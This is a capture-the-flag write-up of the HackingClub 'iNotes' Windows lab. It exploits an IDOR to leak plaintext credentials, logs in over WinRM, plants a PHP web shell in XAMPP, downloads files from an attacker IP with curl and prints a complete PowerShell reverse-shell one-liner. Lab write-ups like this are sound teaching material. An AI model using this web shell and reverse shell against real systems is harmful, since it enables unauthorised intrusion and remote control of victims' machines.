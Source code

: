 ```yaml
---
title: 'iNotes Writeup'
date: '2024-11-13'
tags: ['IDOR', 'Windows', 'Hacking Club']
draft: false
summary: 'This is a HackingClub championship machine where we found an IDOR that provides initial access and Privilege Escalation through XAMPP.'
images: ['/static/images/inotes-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/inotes-writeup-images/default.png)

---

### **Port Scanning**

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.0.30)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: iNotes
|_Requested resource was /login.php
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-13 13:09:38Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: inotes.hc0., Site: Default-First-Site-Name)
443/tcp   open  ssl/http      Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.0.30)
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE  TIME              FILENAME
| 241   2024-11-06 22:10  bootstrap.php
| -     2024-11-06 22:11  database/
| 20K   2024-11-13 13:10  database/database.sqlite
| -     2024-11-06 22:10  functions/
| 129   2024-11-06 22:10  functions/auth.php
| 319   2024-11-06 22:10  functions/db.php
| 416   2024-11-06 22:10  functions/flash.php
| 82    2024-11-06 22:10  functions/utils.php
| 137   2024-11-06 04:43  mssql.xml
| -     2024-11-06 22:10  public/
|_
| http-methods:
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
|_http-title: Index of /
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
|_SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: inotes.hc0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=EC2AMAZ-76KN0U2.inotes.hc
| Issuer: commonName=EC2AMAZ-76KN0U2.inotes.hc
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-03T21:38:30
| Not valid after:  2025-05-05T21:38:30
| MD5:   1381:f5d4:0072:f117:f26e:3077:5362:4890
|_SHA-1: c4ea:7d46:283c:050f:3c94:9a76:e862:4323:4260:5a64
| rdp-ntlm-info:
|   Target_Name: INOTES
|   NetBIOS_Domain_Name: INOTES
|   NetBIOS_Computer_Name: EC2AMAZ-76KN0U2
|   DNS_Domain_Name: inotes.hc
|   DNS_Computer_Name: EC2AMAZ-76KN0U2.inotes.hc
|   Product_Version: 10.0.20348
|_  System_Time: 2024-11-13T13:10:37+00:00
|_ssl-date: 2024-11-13T13:10:46+00:00; 0s from scanner time.
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
Service Info: Hosts: EC2AMAZ-76KN0U2, www.example.com; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-11-13T13:10:39
|_  start_date: N/A
```

Since this is a Windows (AD) machine, many services on multiple ports are open.

---

## Enumeration

`http://172.16.4.116`

![inotes](/static/images/inotes-writeup-images/image.png)

I tried SQL Injection on the login field but was unsuccessful, so I decided to register a new user.

![inotes 1](/static/images/inotes-writeup-images/image1.png)

After logging in.

![inotes 2](/static/images/inotes-writeup-images/image2.png)

Creating a test note.

![inotes 3](/static/images/inotes-writeup-images/image3.png)

IDOR found by changing the note ID.

![inotes 4](/static/images/inotes-writeup-images/image4.png)

![inotes 5](/static/images/inotes-writeup-images/image5.png)

Using the IDOR to enumerate and read all the notes in the application.

I generated a wordlist containing the numbers from 1 to 107.

`seq 1 107 > wordlists.txt`

Then, I sent the wordlist to BurpSuite's Intruder to enumerate all the IDs.

![inotes 6](/static/images/inotes-writeup-images/image6.png)

ID number 97 reveals the credentials of the user john.

`john:Dn*Th5di7UwFJvTM`

![inotes 7](/static/images/inotes-writeup-images/image7.png)

---

## Foot Hold

The AD has several open services, however, the only accessible one with the credentials found was WinRM on port 5985.
With the credentials in hand, we can log into the machine via WinRM.

`evil-winrm -i 172.16.4.176 -u john -p Dn*Th5di7UwFJvTM`

![inotes 8](/static/images/inotes-writeup-images/image8.png)

---

## Privillege Escalation

The machine has XAMPP installed, so I created a PHP web shell.

```python
<?php
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
}
?>
```

With this, I uploaded the web shell to the XAMPP directory, which is located at: `C:\xampp\htdocs`

`curl http://10.0.31.150/shell.php -o shell.php`

![inotes 9](/static/images/inotes-writeup-images/image9.png)

![inotes 10](/static/images/inotes-writeup-images/image10.png)

`https://172.16.4.176/shell.php?cmd=whoami`

![inotes 11](/static/images/inotes-writeup-images/image11.png)

Finally, you can use the web shell to grab the final flag or create a reverse shell.

```
https://172.16.4.176/shell.php?cmd=powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.31.150',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

Note: Be sure to encode the payload.

![inotes 12](/static/images/inotes-writeup-images/image12.png)

---

## Proof

![inotes 12](/static/images/inotes-writeup-images/image13.png)
